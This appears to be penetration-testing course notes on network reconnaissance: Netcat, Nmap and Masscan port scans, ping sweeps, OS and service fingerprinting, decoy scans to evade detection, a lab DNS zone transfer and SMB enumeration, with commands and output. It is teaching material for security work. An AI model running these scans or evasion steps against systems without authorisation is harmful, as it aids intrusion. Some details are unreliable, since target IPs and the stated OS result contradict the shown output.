Using a proper port scanning methodology can significantly improve our efficiency as penetration testers while also limiting many of the risks. Depending on the scope of the engagement, instead of running a full port scan against the target network, we can start by only scanning for ports 80 and 443. With a list of possible web servers, we can run a full port scan against these servers in the background while performing other enumeration. Once the full port scan is complete, we can further narrow our scans to probe for more and more information with each subsequent scan. Port scanning should be viewed as a dynamic process that is unique to each engagement. The results of one scan determine the type and scope of the next scan.

#### TCP | UDP Scanning

We'll begin our exploration of port scanning with a simple TCP and UDP port scan using Netcat. It should be noted that Netcat is not a port scanner, but it can be used as such in a rudimentary way. Since it's already present on many systems, we can repurpose some of its functionality to mimic a basic port scan when we are not in need of a fully-featured port scanner. However, there are far better tools dedicated to port scanning that we will explore in detail as well.

##### TCP Scanning

The simplest TCP port scanning technique. usually called CONNECT scanning, relies on the three- way TCP handshake 195 mechanism. This mechanism is designed so that two hosts attempting to communicate can negotiate the parameters of the network TCP socket connection before transmitting any data. In basic terms, a host sends a TCP SYN packet to a server on a destination port. If the destination port is open, the server responds with a SYN-ACK packet and the client host sends an ACK packet to complete the handshake. 

If the handshake completes successfully, the port is considered open.

To illustrate this, we will run a TCP Netcat port scan on ports 3388-3390. The -w option specifies the connection timeout in seconds and -z is used to specify zero-1/0 mode, which will send no data and is used for scanning:

```
kali@kali:-$ nc -nvv -w 1 -z 10.11.1.220 3388-3390
(UNKNOWN) [10.11.1.220) 3390 (?) : Connection refused
(UNKNOWN) [10.11.1.220] 3389 (?) open
(UNKNOWN) [10.11.1.220] 3388 (?) : Connection refused
sent 0, rcvd 0
```

Based on this output, we can see that port 3389 is open while connections on ports 3388 and 3390
timed out. The screenshot below shows the Wireshark capture of this scan:



In this capture  Netcat sent several TCP SYN packets to ports 3390, 3389, and 3388 on
lines 1, 5 and 9 respectively. Due to a variety of factors, including timing issues, the packets may
appear out of order in Wireshark. Notice that the server sent a TCP SYN·ACK packet from port 3389
on line 6, indicating that the port is open. The other ports did not reply with a similar SYN-ACK
packet, so we can infer that they are not open. Finally, on line 8, Net cat closed down this connection
by sending a FIN-ACK packet.

##### UDP Scanning

Since UDP is stateless and does not involve a thre~way handshake, the mechanism behind UDP
port scanning is different from TCP.

Let's run a UDP Netcat port scan against ports 160-162 on a different target. This is done using the
only nc option we have not seen yet, -u, which indicates a UDP scan:

```
kali@kali:-$ nc -nv -u -z -w 1 10.11.1.115 160-162
(UNKNOWN) [10.11.1.115) 161 (snmp) open
```

From the Wireshark capture, we can see that the UDP scan uses a different mechanism than a TCP
scan:


As seen in Figure 43, an empty UDP packet is sent to a specific port (packets 3, 5, 6, and 7). If the
destination UDP port is open, the packet will be passed to the application layer and the response
received will depend on how the application is programmed to respond to empty packets. In this
example, the application sends no response. However, if the destination UDP port is closed, the
target should respond with an ICMP port unreachable (as seen in packets 4 and 8), that is sent by
the UDP/IP stack of the target machine.

Most UDP scanners tend to use the standard "ICMP port unreachable" message to infer the status
of a target port. However, this method can be completely unreliable when the target port is filtered
by a firewall. In fact, in these cases the scanner will report the target port as open because of the
absence of the ICMP message.

##### Common Port Scanning Pitfalls

UDP scanning can be problematic for several reasons. First, UDP scanning is often unreliable, as firewalls and routers may drop ICMP packets. This can lead to false positives and ports showing as open when they are, in fact, closed. Second, many port scanners do not scan all available ports, and usually have a pre-set list of ·interesting ports· that are scanned. This means open UDP ports can go unnoticed. Using a protocol-specific UDP port scanner may help in obtaining more accurate results. Finally, penetration testers often forget to scan for open UDP ports, instead focusing on the ·more exciting· TCP ports. Although UDP scanning can be unreliable, there are plenty of attack vectors lurking behind open UDP ports.

#### Port Scanning with Nmap

Nmap (written by Gordon Lyon, aka Fyodor) is one of the most popular, versatile, and robust port scanners available. It has been actively developed for over a decade and has numerous features beyond port scanning.

*Some of the Nmap example scans we cover in this module are run using sudo. This is due to the fact that quite a few Nmap scanning options require access to raw sockets, 797 which in turn require root privileges. Raw sockets allow for surgical manipulation of TCP and UDP packets. Without access to raw sockets, Nmap is limited as it falls back to crafting packets by using the standard Berkeley socket API.*

##### Accountability for Our Traffic

A default Nmap TCP scan will scan the 1000 most popular ports on a given machine. Before we start running scans blindly, let's examine the amount of traffic sent by this type of sca n. We'll scan one of the lab machines while monitoring the amount of traffic sent to t he target host using 
iptables. 

We will use several iptabl.es options. First, we w ill use the -I option to insert a new rule into a
given chain, which in this case includes both the INPUT (Inbound) and OUTPUT (Outbound) chains
followed by the rule number. We will use -s to specify a source IP address, -d to specify a
destination IP address, and -j to ACCEPT the traffic. Lastly, we wi ll use the -z option to zero the
packet and byte counters in all chains.

Let's run those commands now:

```
kali@kali:~$ sudo iptables -I INPUT 1 -s 10.11.1.220 -j ACCEPT

kali@kali:~$ sudo iptables -I OUTPUT 1 -d 10.11.1.228 -j ACCEPT

kali@kali:~$ sudo iptables -Z
```

Now let's generate some traffic using nmap:

```
kali@kali:~$ nmap 192.168.0.196                                                                    
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-14 22:30 EST
Nmap scan report for 192.168.0.196
Host is up (0.0025s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

The scan completed and revealed a few open ports.

Now let's look at some iptables statistics to get an idea of how much traffic our scan generated.
We will use the -v option to add some verbosity to our output. -n to enable numeric output. and -
L to list the rules present in all chains:

```
kali@kali:~$ $ sudo iptables -vn -L
Chain INPUT (policy ACCEPT 163 packets, 18372 bytes)
 pkts bytes target     prot opt in     out     source               destination         
 1056 47082 ACCEPT     all  --  *      *       192.168.0.196        0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 1229 packets, 78912 bytes)
 pkts bytes target     prot opt in     out     source               destination         
    0     0 ACCEPT     all  --  *      *       192.168.0.196        0.0.0.0/0       
```

Let's use iptables -z to zero the packet and byte counters in all chains again and run another
nmap scan using-p to specify ALL TCP ports:

```
kali@kali:~$ sudo iptables -Z

kali@kali:~$ nmap -p 1-65535 192.168.0.196
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 00:37 EST
Nmap scan report for 192.168.0.196
Host is up (0.0010s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
5357/tcp  open  wsdapi
7680/tcp  open  pando-pub
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49672/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 49.81 seconds

kali@kali:~$ sudo iptables -vn -L         
Chain INPUT (policy ACCEPT 109 packets, 15910 bytes)
 pkts bytes target     prot opt in     out     source               destination         
70962 2844K ACCEPT     all  --  *      *       192.168.0.196        0.0.0.0/0           

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkts bytes target     prot opt in     out     source               destination         

Chain OUTPUT (policy ACCEPT 71221 packets, 4276K bytes)
 pkts bytes target     prot opt in     out     source               destination         
    0     0 ACCEPT     all  --  *      *       192.168.0.196        0.0.0.0/0


```


##### Stealth I SYN Scanning

Nmap's preferred scanning technique is a SYN, or "stealth" scan. There are many benefits to using a SYN scan and as such, it is the default scan technique used when no scan technique is specified in an nmap command and the user has the required raw sockets privileges.

SYN scanning is a TCP port scanning method that involves sending SYN packets to various ports on a target machine without completing a TCP handshake. If a TCP port is open, a SYN-ACK should be sent back from the target machine, informing us that the port is open. At this point, the port scanner does not bother to send the final ACK to complete the three-way handshake. 

```
kali@kali:~$ sudo nmap -sS 192.168.0.196  
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 00:42 EST
Nmap scan report for 192.168.0.196
Host is up (0.00052s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
MAC Address: 00:0C:29:95:9D:B8 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 5.11 seconds

```

Because the three-way handshake is never completed, the information is not passed to the application layer and as a result, will not appear in any application logs. A SYN scan is also faster and more efficient because fewer packets are sent and received.

*Please note that term #stealth· refers to the fact that, in the past, primitive firewalls would fail to log incomplete TCP connections. This is no longer the case with modern firewalls and even if the stealth moniker has stuck around, it could be misleading.*

##### TCP Connect Scanning

When a user running nmap does not have raw socket privileges, Nmap will default to the TCP connect scan  technique described earlier. Since a Nmap TCP connect scan makes use of the Berkeley sockets API to perform the three-way handshake, it does not require elevated privileges. However, because Nmap has to wait for the connection to complete before the API will return the status of the connection, a connect scan takes much longer to complete than a SYN scan. 

There might be times when we need to specifically perform a connect scan with nmap, for example, when scanning via certain types of proxies. We use the -sT option to start a connect scan:

```
kali@kali:~$ sudo nmap -sT 192.168.0.196 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:01 EST
Nmap scan report for 192.168.0.196
Host is up (0.0050s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi

Nmap done: 1 IP address (1 host up) scanned in 2.12 seconds
```

##### UDP Scanning

When performing a UDP scan,  Nmap will use a combination of two different methods to determine if a port is open or closed. For most ports, it will use the standard "ICMP port unreachable" method described earlier by sending an empty packet to a given port. However, for common ports, such as port 161, which is used by SNMP, it will send a protocol-specific SNMP packet in an attempt to get a response from an application bound to that port. To perform a UDP scan, the -sU option is used and sudo is required to access raw sockets:

```
ka1i@kali:~$ sudo nmap -sU 10.11.1.115
Starting Nmap 7.70 ( https://nmap.org) at 2019-03-04 11:46 EST
Nmap scan report for 10.11.1.115
Host is up (0.079s latency).
Not shown: 997 openlfiltered ports
PORT STATE SERVICE
111/udp open rpcbind
137/udp open netbios-ns
161/udp open snmp

Nmap done: l IP address (1 host up) scanned in 22.49 seconds
```

The UDP scan (-sU) can also be used in conjunction with a TCP SYN  (-sS) option to build a scan more complete picture of our target: 

```
kali@kali:~$ sudo nmap -sS -sU 10.11.1.115
Starting Nmap 7.70 ( https://nmap.org) at 2019-03-04 12:46 EST
Nmap scan report for 10.11.1.115
Host is up (0.15s latency).
Not shown: 997 openlfiltered ports, 989 closed ports
PORT		STATE	SERVICE 
21/tcp		open	ftp
22/tcp		open	ssh	
25/tcp		open	smtp
80/tcp		open	http
111/tcp		open	rpcbind
139/tcp		open	netbios-ssn
143/tcp		open	imap
199/tcp		open	smux
443/tcp		open	https
3306/tcp	open	mysql
32768/tcp 	open	filenet-tms
111/udp		open	rpcbind
137/udp		open	netbios-ns
161/udp 	open	snmp

Nmap done: l IP address (l host up) scanned in 64.74 seconds
```

##### Network Sweeping

To deal with large volumes of hosts, or to otherwise try to conserve network traffic, we can attempt to probe targets using Network Sweeping techniques, in which we begin with broad scans, and use more specific scans against hosts of interest.

When performing a network sweep with Nmap using the -sn option, the host discovery process consists of more t han just sending an ICMP echo request. Several other probes are used in addition to the ICMP request. Nmap also sends a TCP SYN packet to port 443, a TCP ACK packet to port 80, and an ICMP timestamp request to verify if a host is available or not.

```
kali@kali:~$ nmap -sn 192.168.0.1-254                                                     Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:12 EST
Nmap scan report for 192.168.0.1
Host is up (0.0016s latency).
Nmap scan report for 192.168.0.107
Host is up (0.027s latency).
Nmap scan report for 192.168.0.196
Host is up (0.0039s latency).
Nmap scan report for 192.168.0.207
Host is up (0.0088s latency).
Nmap scan report for 192.168.0.223
Host is up (0.0012s latency).
Nmap done: 254 IP addresses (5 hosts up) scanned in 6.82 seconds
```

Searching for live machines using the grep command on a standard nmap output can be
cumbersome. Instead, let's use Nmap's ·greppable· output parameter, -oG, to save these results
into a format that is easier to manage:

```
kali@kali:~$ nmap -sn 192.168.0.1-254 -oG ping-sweep.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:14 EST
Nmap scan report for 192.168.0.1
Host is up (0.00064s latency).
Nmap scan report for 192.168.0.107
Host is up (0.0037s latency).
Nmap scan report for 192.168.0.196
Host is up (0.00038s latency).
Nmap scan report for 192.168.0.207
Host is up (0.0015s latency).
Nmap scan report for 192.168.0.223
Host is up (0.00058s latency).
Nmap done: 254 IP addresses (5 hosts up) scanned in 6.46 seconds

kali@kali:~$ grep Up ping-sweep.txt | cut -d " " -f 2
192.168.0.1
192.168.0.107
192.168.0.196
192.168.0.207
192.168.0.223
```

We can also sweep for specific TCP or UDP ports across the network, probing for common services and ports. in an attempt to locate systems that may be useful, or otherwise have known vulnerabilities. This scan tends to be more accurate than a ping sweep:

```
kali@kali:~$ nmap -p 80  192.168.0.1-254 -oG web-sweep.txt 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:20 EST
Nmap scan report for 192.168.0.1
Host is up (0.0030s latency).

PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 192.168.0.107
Host is up (0.0064s latency).

PORT   STATE  SERVICE
80/tcp closed http

Nmap scan report for 192.168.0.179
Host is up (0.092s latency).

PORT   STATE  SERVICE
80/tcp closed http

Nmap scan report for 192.168.0.196
Host is up (0.0034s latency).

PORT   STATE  SERVICE
80/tcp closed http

Nmap scan report for 192.168.0.207
Host is up (0.0051s latency).

PORT   STATE  SERVICE
80/tcp closed http

Nmap scan report for 192.168.0.223
Host is up (0.00018s latency).

PORT   STATE  SERVICE
80/tcp closed http

Nmap done: 254 IP addresses (6 hosts up) scanned in 7.67 seconds
                                                                                                                      
kali@kali:~$ grep open web-sweep.txt| cut -d " " -f 2
192.168.0.1
```

To save time and network resources, we can also scan multiple IPs, probing for a short list of common ports. For example, let's conduct a TCP connect scan for the top twenty TCP ports with the --top-ports option and enable OS version detection, script scanning, and traceroute with -A:

```
kali@kali:~$ nmap -sT -A --top-ports=20 192.168.0.1-254 -oG top-port-sweep.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:24 EST
Nmap scan report for 192.168.0.1
Host is up (0.0075s latency).

PORT     STATE  SERVICE       VERSION
21/tcp   closed ftp
22/tcp   open   ssh           Dropbear sshd 2011.54 (protocol 2.0)
| ssh-hostkey: 
|_  1040 e7:a2:e6:6a:04:51:72:f7:9e:09:5c:d0:f1:60:00:d7 (RSA)
23/tcp   closed telnet
25/tcp   closed smtp
53/tcp   open   tcpwrapped
80/tcp   open   http          BusyBox http 1.19.4
|_http-title: Site doesn't have a title (text/html).
110/tcp  closed pop3
111/tcp  closed rpcbind
135/tcp  closed msrpc
139/tcp  closed netbios-ssn
143/tcp  closed imap
443/tcp  open   ssl/http      BusyBox http 1.19.4
...
```

The top twenty nmap ports are determined using the /usr/share/nmap/nmap-services file. The file uses a simple format of three whitespace-separated columns. The first is the name of t he service. the second contains the port number and protocol, and the third, the "port frequency·. Everything after the third column is ignored but is typically used for comments as can be seen by the use of the pound sign (#). The port frequency is based on how often the port was found open during research scans of the lnternet:

```
kali@kali:~$ cat /usr/share/nmap/nmap-services
...
ftp-data	20/sctp	0.000000	# File Transfer [Default Data] | FTP
ftp-data	20/tcp	0.001079	# File Transfer [Default Data]
ftp-data	20/udp	0.001878	# File Transfer [Default Data]
ftp	21/sctp	0.000000	# File Transfer [Control] | File Transfer Protocol [Control]
ftp	21/tcp	0.197667	# File Transfer [Control]
ftp	21/udp	0.004844	# File Transfer [Control]
ssh	22/sctp	0.000000	# Secure Shell Login | The Secure Shell (SSH) Protocol
ssh	22/tcp	0.182286	# Secure Shell Login
ssh	22/udp	0.003905	# Secure Shell Login
telnet	23/tcp	0.221265
telnet	23/udp	0.006211
priv-mail	24/tcp	0.001154	# any private mail system
priv-mail	24/udp	0.000329	# any private mail system
smtp	25/tcp	0.131314	# Simple Mail Transfer
smtp	25/udp	0.001285	# Simple Mail Transfer
...
```

##### OS Fingerprinting

Nmap has a built-in feature called OS fingerprinting, 205 which can be enabled with the -O option. This feature attempts to guess the target's operating system by inspecting returned packets. This is possible because operating systems often have slightly different implementations of the TCP/IP stack (such as varying default TTL values and TCP window sizes) and these slight variances create a fingerprint that Nmap can often identify.

Nmap will inspect the traffic received from the target machine and attempt to match the fingerprint to a known list.

For example, consider this simple nmap OS fingerprint scan.

```
kali@kali:~$ sudo nmap -O 192.168.0.196                                                   [sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:30 EST
Nmap scan report for 192.168.0.196
Host is up (0.0011s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
MAC Address: 00:0C:29:95:9D:B8 (VMware)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

The response suggests that the underlying operating system of this target is either Windows 7 or
Windows 2008 R2.

*Note that OS Fingerprinting is not always 100% accurate, but a best-guess attempt. Consider a more careful examination of the target to confirm an OS fingerprint scan.*

##### Banner Grabbing/Service Enumeration

We can also identify services running on specific ports by inspecting service banners (-sV) and running various OS and service enumeration scripts (-A) against the target

```
kali@kali:~$ nmap -sV -sT -A 192.168.0.196
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:38 EST
Nmap scan report for 192.168.0.196
Host is up (0.00060s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows 10 Pro 18362 microsoft-ds (workgroup: WORKGROUP)
2869/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DESKTOP-H5AKSBG
|   NetBIOS_Domain_Name: DESKTOP-H5AKSBG
|   NetBIOS_Computer_Name: DESKTOP-H5AKSBG
|   DNS_Domain_Name: DESKTOP-H5AKSBG
|   DNS_Computer_Name: DESKTOP-H5AKSBG
|   Product_Version: 10.0.18362
|_  System_Time: 2020-12-15T09:39:00+00:00
| ssl-cert: Subject: commonName=DESKTOP-H5AKSBG
| Not valid before: 2020-12-08T02:39:09
|_Not valid after:  2021-06-09T02:39:09
|_ssl-date: 2020-12-15T09:39:05+00:00; 0s from scanner time.
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: DESKTOP-H5AKSBG; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1h36m00s, deviation: 3h34m39s, median: 0s
|_nbstat: NetBIOS name: DESKTOP-H5AKSBG, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:95:9d:b8 (VMware)
| smb-os-discovery: 
|   OS: Windows 10 Pro 18362 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: DESKTOP-H5AKSBG
|   NetBIOS computer name: DESKTOP-H5AKSBG\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-12-15T17:39:00+08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-15T09:39:00
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.33 seconds
```

Keep in mind that banners can be modified by system administrators. As such, these can be intentionally set to fake service names in order to mislead a potential attacker.

Banner grabbing has a significant impact on the amount of traffic used as well as the speed of the scan. We should always be mindful of the options we use with nmap and how they affect our scans.

##### Evading detection using Nmap

Whenever a packet is sent from one device to another, the source IP address is included within the header of the packet. This is the default behavior of the TCP/IP stack; all address details must be included within all packets that need to traverse a network. In performing a network scan on a target, our source IP address is included within all packets that our machine, Kali Linux, sends to the target. 

Nmap has the capability of using decoys to trick the target into believing that the network scans are originating from multiple sources rather than a single source IP address. The -D

operator is followed by random IP addresses, which are the decoys. Let's assume we want to scan an IP address, 10.10.10.100, and set three decoys: 10.10.10.14, 10.10.10.15, and 10.10.10.19. We can use the following command:


```
# nmap -sS 10.10.10.100 –D 10.10.10.14, 10.10.10.15, 10.10.10.19
```


##### Nmap Scripting Engine (NSE)

We can use the Nmap Scripting Engine (NSE) 206 to launch user-created scripts in order to automate various scanning tasks. These scripts perform a broad range of functions including DNS  enumeration, brute force attacks, and even vulnerability identification. NSE scripts are located in the /usr/share/nmap/scripts directory.

**NSE Script  Types**

- Auth
- Broadcast
- Brute
- Default
- Discovery
- DoS
- Exploit
- External
- Fuzz

For example, the smb-os-discovery script attempts to connect to the SMB service on a target
system and determine its operating system:

```
kali@kali:~$ nmap 192.168.0.196 --script=smb-os-discovery
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:42 EST
Nmap scan report for 192.168.0.196
Host is up (0.00039s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi

Host script results:
| smb-os-discovery: 
|   OS: Windows 10 Pro 18362 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: DESKTOP-H5AKSBG
|   NetBIOS computer name: DESKTOP-H5AKSBG\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-12-15T17:42:11+08:00

Nmap done: 1 IP address (1 host up) scanned in 2.02 seconds
```

Another useful (and self-explanatory) NSE script is dns-zone-transfer:

```
kali@kali:~$ nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:43 EST
Nmap scan report for ns2.megacorpone.com (3.211.51.86)
Host is up (0.25s latency).
rDNS record for 3.211.51.86: ec2-3-211-51-86.compute-1.amazonaws.com

PORT   STATE SERVICE
53/tcp open  domain
| dns-zone-transfer: 
| megacorpone.com.           SOA  ns1.megacorpone.com. admin.megacorpone.com.
| megacorpone.com.           TXT  "Try Harder"
| megacorpone.com.           TXT  "google-site-verification=U7B_b0HNeBtY4qYGQZNsEYXfCJ32hMNV3GtC0wWq5pA"
| megacorpone.com.           MX   10 fb.mail.gandi.net.
| megacorpone.com.           MX   20 spool.mail.gandi.net.
| megacorpone.com.           MX   50 mail.megacorpone.com.
| megacorpone.com.           MX   60 mail2.megacorpone.com.
| megacorpone.com.           NS   ns1.megacorpone.com.
| megacorpone.com.           NS   ns2.megacorpone.com.
| megacorpone.com.           NS   ns3.megacorpone.com.
| admin.megacorpone.com.     A    3.220.61.179
| beta.megacorpone.com.      A    3.220.61.179
| fs1.megacorpone.com.       A    3.220.61.179
| intranet.megacorpone.com.  A    3.220.61.179
| mail.megacorpone.com.      A    3.220.61.179
| mail2.megacorpone.com.     A    3.220.61.179
| ns1.megacorpone.com.       A    3.220.61.179
| ns2.megacorpone.com.       A    3.211.51.86
| ns3.megacorpone.com.       A    3.212.85.86
| router.megacorpone.com.    A    3.220.61.179
| siem.megacorpone.com.      A    3.220.61.179
| snmp.megacorpone.com.      A    3.220.61.179
| support.megacorpone.com.   A    3.212.85.86
| syslog.megacorpone.com.    A    3.220.61.179
| test.megacorpone.com.      A    3.220.61.179
| vpn.megacorpone.com.       A    3.220.61.179
| www.megacorpone.com.       A    3.220.87.155
| www2.megacorpone.com.      A    3.220.61.179
|_megacorpone.com.           SOA  ns1.megacorpone.com. admin.megacorpone.com.

Nmap done: 1 IP address (1 host up) scanned in 5.60 seconds
```

To view more information about a script we can use the --script-help option, which displays a description of the script and a URL where we can find more in-depth information, such as the script arguments and usage examples.

```
kali@kali:~$ nmap --script-help dns-zone-transfer                                         
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:45 EST

dns-zone-transfer
Categories: intrusive discovery
https://nmap.org/nsedoc/scripts/dns-zone-transfer.html
  Requests a zone transfer (AXFR) from a DNS server.

  The script sends an AXFR query to a DNS server. The domain to query is
  determined by examining the name given on the command line, the DNS
  server's hostname, or it can be specified with the
  <code>dns-zone-transfer.domain</code> script argument. If the query is
  successful all domains and domain types are returned along with common
  type specific data (SOA/MX/NS/PTR/A).
...
```

#### Masscan

Masscan is arguably the fastest port scanner; it can scan the entire Internet in about 6 minutes.  transmitting an astounding 10 miIlion packets per second! While it was originally designed to scan the entire Internet, it can easily handle a class A or B subnet, which is a more suitable target range during a penetration test.

Masscan is not installed on Kali by default; it must be installed using apt install:

```
kali@kali:~$ sudo apt install masscan
```

Consider this demonstration that locates all machines on a large internal network with TCP port 80 open (using the -p80 option). Since masscan implements a custom TCP/IP stack, it will require access to raw sockets and therefore requires sudo.

```
kali@kali:~$ sudo masscan -p80 10.0.0.0/8
```

To try masscan on a class C subnet in the PWK internal lab network, we can use the following example. We will add a few additional masscan options, including --rate to specify the desired rate of packet  transmission, -e to specify the raw network interface to use, and --router-ip to specify the IP address for the appropriate gateway:

```
kali@kali:~$ sudo masscan -p80 10.11.1.8/24 --rate=1000 -e tap0 --router-ip 10.11.0.1

Starting masscan 1.0.3 (http://bit.ly/l4GZzcT) at 2019-03-04 17:15:40 GMT
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 256 hosts [l port/host]
Discovered open port 80/tcp on 10.11.1.14
Discovered open port 80/tcp on 10.11.1.39
Discovered open port 80/tcp on 10.11.1.219
Discovered open port 80/tcp on 10.11.1.227
Di scovered open port 80/tcp on 10.11.1.10
Discovered open port 80/tcp on 10.11.1.50
Discovered open port 80/tcp on 10.11.1.234
...
```

### SMB Enumeration

The security track record of the Server Message Block (SMB) protocol has been poor for many years due to its complex implementation and open nature. From unauthenticated SMB null sessions in Windows 2000 and XP, to a plethora of SMB bugs and vulnerabilities over the years, SMB has seen its fair share of action. 

That said, the SMB protocol has also been updated and improved in parallel with Windows Operating Systems releases.

#### Scanning for the NetBIOS Service

The NetBIOS service listens on TCP port 139 as well as several UDP ports. It should be noted that SMB (TCP port 445) and NetBIOS are two separate protocols. NetBIOS is an independent session layer protocol and service that allows computers on a local network to communicate with each other. While modern implementations of SMB can work without NetBIOS, NetB/OS over TCP (NBT) 211 is required for backward compatibility and is often enabled together. For this reason, the enumeration of these two services often goes hand-in-hand. These can be scanned with tools like nmap, using syntax similar to the following:

```
kali@kali:~$ nmap -v -p 139,445 -oG smb.txt 192.168.0.223
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-15 04:57 EST
Initiating Ping Scan at 04:57
Scanning 192.168.0.223 [2 ports]
Completed Ping Scan at 04:57, 0.00s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:57
Completed Parallel DNS resolution of 1 host. at 04:57, 0.03s elapsed
Initiating Connect Scan at 04:57
Scanning 192.168.0.223 [2 ports]
Completed Connect Scan at 04:57, 0.00s elapsed (2 total ports)
Nmap scan report for 192.168.0.223
Host is up (0.00023s latency).

PORT    STATE  SERVICE
139/tcp closed netbios-ssn
445/tcp closed microsoft-ds

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds

```

There are other, more specialized tools for specifically identifying NetBIOS information, such as nbtscan, which is used in the following example. The -r option is used to specify the originating UDP port as 137, which is used to query the NetBIOS name service for valid NetBIOS names:

```
kali@kali:~$ sudo nbtscan -r 192.168.0.0/24  
[sudo] password for kali: 
Doing NBT name scan for addresses from 192.168.0.0/24

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
192.168.0.0	Sendto failed: Permission denied
192.168.0.1      <unknown>                  <unknown>        
192.168.0.223    <unknown>                  <unknown>        
192.168.0.255	Sendto failed: Permission denied
192.168.0.196    DESKTOP-H5AKSBG  <server>  <unknown>        00:0c:29:95:9d:b8
....
```

#### Nmap SMB NSE Scripts

Nmap contains many useful NSE scripts that can be used to discover and enumerate SMB services. These scripts can be found in the /usr/share/nmap/scripts directory:

```
kali@kali:~$ ls -l /usr/share/nmap/scripts/smb*
-rw-r--r-- 1 root root  3355 Oct 12 09:29 /usr/share/nmap/scripts/smb2-capabilities.nse
-rw-r--r-- 1 root root  3075 Oct 12 09:29 /usr/share/nmap/scripts/smb2-security-mode.nse
-rw-r--r-- 1 root root  1447 Oct 12 09:29 /usr/share/nmap/scripts/smb2-time.nse
-rw-r--r-- 1 root root  5238 Oct 12 09:29 /usr/share/nmap/scripts/smb2-vuln-uptime.nse
-rw-r--r-- 1 root root 45138 Oct 12 09:29 /usr/share/nmap/scripts/smb-brute.nse
-rw-r--r-- 1 root root  5289 Oct 12 09:29 /usr/share/nmap/scripts/smb-double-pulsar-backdoor.nse
